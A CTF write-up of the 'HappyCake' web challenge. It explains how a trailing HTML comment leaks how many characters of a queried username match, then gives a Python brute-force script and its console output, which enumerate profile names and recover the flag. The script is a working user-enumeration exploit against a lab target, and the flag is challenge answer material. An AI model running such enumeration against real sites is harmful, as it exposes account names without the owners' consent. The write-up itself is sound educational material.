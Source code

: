 # HappyCake
Web, 15 points

## Description
> Wish'em happy birthday!

A link to a website was provided.

## Solution

We visit the website and see a simple page with several birthday wishes, e.g.:

```html
<div birthday="">
    <p subtitle="">Happy cake, Nir!</p>
    <div info="" row="">
        <p content="">06/12/2019</p>
        <a tag="" content="" href="scripts/page/?Nadav">@Nadav</a>
    </div>
    <p content="">Happy cake, <a tag="" content="" href="scripts/page/?Nir">@Nir</a>.</p>
    <p>We wish you the best of everything, including dogs and flags.</p>
</div>
```

Clicking one of the '`@Name`' links brings us to the a profile page, e.g.:

```html
    <!DOCTYPE html>
    <!--
     Copyright (c) 2019 Nadav Tasher
     https://github.com/NadavTasher/BaseTemplate/
    -->
    <html lang="en">
    <head>
        <meta charset="UTF-8"/>
        <meta name="description" content="Info about Nadav">
        <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=5, user-scalable=yes, minimal-ui"/>
        <meta name="mobile-web-app-capable" content="yes">
        <meta name="theme-color" content="#dae4ed"/>
        <meta name="apple-mobile-web-app-capable" content="yes"/>
        <meta name="apple-mobile-web-app-status-bar-style" content="black-translucent"/>
        <meta name="apple-mobile-web-app-title" content="Happy Cake!"/>
        <title>@Nadav</title>
        <noscript></noscript>
        <style>
            /**
             * Copyright (c) 2019 Nadav Tasher
             * https://github.com/NadavTasher/BaseTemplate/
             **/

            /* ... Irrelevant style code, removed ... */
        </style>
        <script>
            /**
             * Copyright (c) 2019 Nadav Tasher
             * https://github.com/NadavTasher/BaseTemplate/
             **/

            /* ... Irrelevant Javascript code, removed... */
        </script>
        <script>

        </script>
    </head>
    <body column>
    <p style="font-size: 6vh">Developer pages</p>
    <p>Nadav's developer page</p><p>Full Web Stack, Android RE, Java, member of KAF</p>    <a href="../../">Back home</a>
    </body>
    </html>
<!-- OK -->
```

Searching for common web vulnerabilities, nothing immediate seems to reveal itself. The source code for the base template, which is linked to from the comments, doesn't seem to provide any hint either. The only odd behavior is related to the HTML comment at the end of the page:

```console
root@kali:/media/sf_CTFs/kaf/HappyCake# curl -s http://ctf.kaf.sh/scripts/page/?Nadav | tail -n 1 && echo
<!-- OK -->
root@kali:/media/sf_CTFs/kaf/HappyCake# curl -s http://ctf.kaf.sh/scripts/page/? | tail -n 1 && echo
<!-- failed after 0 rounds-->
root@kali:/media/sf_CTFs/kaf/HappyCake# curl -s http://ctf.kaf.sh/scripts/page/?NoSuchName | tail -n 1 && echo
<!-- failed after 2 rounds-->
root@kali:/media/sf_CTFs/kaf/HappyCake# curl -s http://ctf.kaf.sh/scripts/page/?N | tail -n 1 && echo
<!-- failed after 1 rounds-->
root@kali:/media/sf_CTFs/kaf/HappyCake# curl -s http://ctf.kaf.sh/scripts/page/?Na | tail -n 1 && echo
<!-- failed after 2 rounds-->
root@kali:/media/sf_CTFs/kaf/HappyCake# curl -s http://ctf.kaf.sh/scripts/page/?Nad | tail -n 1 && echo
<!-- failed after 3 rounds-->
root@kali:/media/sf_CTFs/kaf/HappyCake# curl -s http://ctf.kaf.sh/scripts/page/?Nada | tail -n 1 && echo
<!-- failed after 4 rounds-->
root@kali:/media/sf_CTFs/kaf/HappyCake# curl -s http://ctf.kaf.sh/scripts/page/?Nadav | tail -n 1 && echo
<!-- OK -->
```

The comment contains `OK` if the username exists. If it doesn't, the comment seems to hint how many characters from the input matched an existing user, before it was concluded that the user doesn't exist.

This means that using brute-force, we can enumerate all the developer pages - we just need to keep count of the previous number of failed attempts and if we see it incremented, we know we found an additional valid character. Perhaps we'll find something interesting.

We'll use the following Python script:

```python
from collections import namedtuple
from enum import Enum
import requests
import argparse
import string
import time
import re

# Printable characters (excluding {'\r', '\x0c', '\t', '\x0b', '\n'}), order optimized for CTF flags
ALPHABET = 'Ee3Tt7Aa@4Oo0Ii1!_NnSs5$HhRrDdLlCcUuMmWwFfGg6YyPpBbVvKkJjXxQqZz289{}"#%&\'()*+,-./:;<=>?[\\]^`|~ '
assert(set(ALPHABET) == set(string.ascii_lowercase + string.ascii_uppercase + string.digits + string.punctuation + ' '))

status_comment_regex = re.compile(r'<!-- (failed after (?P<num_failed_rounds>\d+) rounds|OK )-->')
Partial_Result = namedtuple('Partial_Result', 'username num_failed_rounds')

class SearchMode(Enum):
    GREEDY = 'greedy'
    BFS = 'bfs'
    
    def __str__(self):
        return self.value


def try_user(username: str) -> int:
    r = requests.get(f"https://ctf.kaf.sh/scripts/page/?{username}")
    last_line = r.text.split("\n")[-1]
    if (match:= status_comment_regex.match(last_line)):
        res = match.group('num_failed_rounds')
        return int(res) if res is not None else None

def main(initial_string, search_mode):
    working_queue = [Partial_Result(initial_string, try_user(initial_string))]
    users = []
    while len(working_queue) > 0:
        queue_item = working_queue.pop(0)
        for c in ALPHABET:
            new_username = queue_item.username + c
            num_failed_rounds = try_user(new_username)
            if num_failed_rounds is None:
                users.append(new_username)
                print(f'Found user: {new_username}', end=', ' if search_mode == SearchMode.BFS else '\n', flush=True)
                if search_mode == SearchMode.GREEDY:
                    break
            elif num_failed_rounds > queue_item.num_failed_rounds:
                partial_result = Partial_Result(new_username, num_failed_rounds)
                working_queue.append(partial_result)
                print (f'{new_username}', end=', ' if search_mode == SearchMode.BFS else '\r', flush=True)
                if search_mode == SearchMode.GREEDY:
                    break
                    
    if search_mode == SearchMode.BFS:
        print ("Found the following users:")
        print(users)

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("-s", '--initial_string', action='store', type=str, default="", help='Initial string value to start scanning from')
    parser.add_argument("-m", '--search_mode', action='store', type=SearchMode, choices=list(SearchMode), default=SearchMode.BFS, help='Search Mode')
    args = parser.parse_args()
    main(args.initial_string, args.search_mode)
```

By default, it uses [BFS](https://en.wikipedia.org/wiki/Breadth-first_search) to display the first `n` characters of each existing profile. If we spot an interesting prefix, we can abort the search and use `Greedy` mode to further explore it, instead of waiting for the `BFS` search to finish.

Running it, we get:
```console
root@kali:/media/sf_CTFs/kaf/HappyCake# python3.8 solve.py
E, T, A, O, I, N, S, H, R, D, L, C, U, M, W, F, G, Y, P, B, V, K, J, X, Q, Z, Et, Ea, En, Es, Er, Ed, El, Eu, Em, Ep, Ev, Ez, Te, Ta, To, Ti, Th, Tr, Tu, Found user: Ty, At, Aa, Ai, An, As, Ah, Ar, Ad, Al, Ac, Au, Am, Ag, Ay, Ap, Ab, Av, Ax, Az, Ot, Oa, Os, Or, Od, Ol, Om, Ow, Ia, Is, Ir, Ig, Ib, Iv, Ik, Iz, Ne, Na, No, Ni, Se, St, Sa, So, Si, Sh, Sc, Su, Sy, Sp, Sk, He, Ha, Ho, Hu, Re, Ra, Ro, Ri, Rh, Ru, Ry, De, Da, Do, Di, Dr, Du, Dw, Dy, Le, La, Lo, Li, Lu, Ly, Ce, Ca, Co, Ch, Cr, Cl, Cu, Cy, Ur, Ul, Me, Ma, Mo, Mi, Mu, My, We, Wa, Wi, Wy, Fe, Fa, Fo, Fi, Fr, Fl, Ge, Ga, Go, Gi, Gr, Gu, Ye, Ya, Yo, Yi, Yu, Pe, Pa, Po, Pi, Ph, Pr, Be, Ba, Found user: Bo, Bi, Br, Bl, By, Bj, Va, Vi, Ke, KA, Ka, Ko, Ki, Kn, Kh, Kr, Ky, Je, Ja, Jo, Ji, Ju, Xa, Xz, Qu, Ze, Za, Zi, Zy, Eth [...]
```

Scanning through the intermediate results, we can spot an interesting prefix: `KA`, which is:
1. The only prefix that has two capital letters
2. The beginning of the flag format: `KAF{}`

Now's the time to switch to greedy mode:
```console
root@kali:/media/sf_CTFs/kaf/HappyCake# python3.8 solve.py -s KA -m greedy
Found user: KAF{12098421009713091723097120397428479354_ju5t_m3551n9_w1th_ya_b0ii}

root@kali:/media/sf_CTFs/kaf/HappyCake# curl -s "http://ctf.kaf.sh/scripts/page/?KAF\{1209842100971309172309712039742847
9354_ju5t_m3551n9_w1th_ya_b0ii\}" | tail -n 6 && echo
    <body column>
    <p style="font-size: 6vh">Developer pages</p>
    <p>KAF{12098421009713091723097120397428479354_ju5t_m3551n9_w1th_ya_b0ii}'s developer page</p><p>Full flag developer, Scriptlicker</p>    <a href="../../">Back home</a>
    </body>
    </html>
<!-- OK -->
```

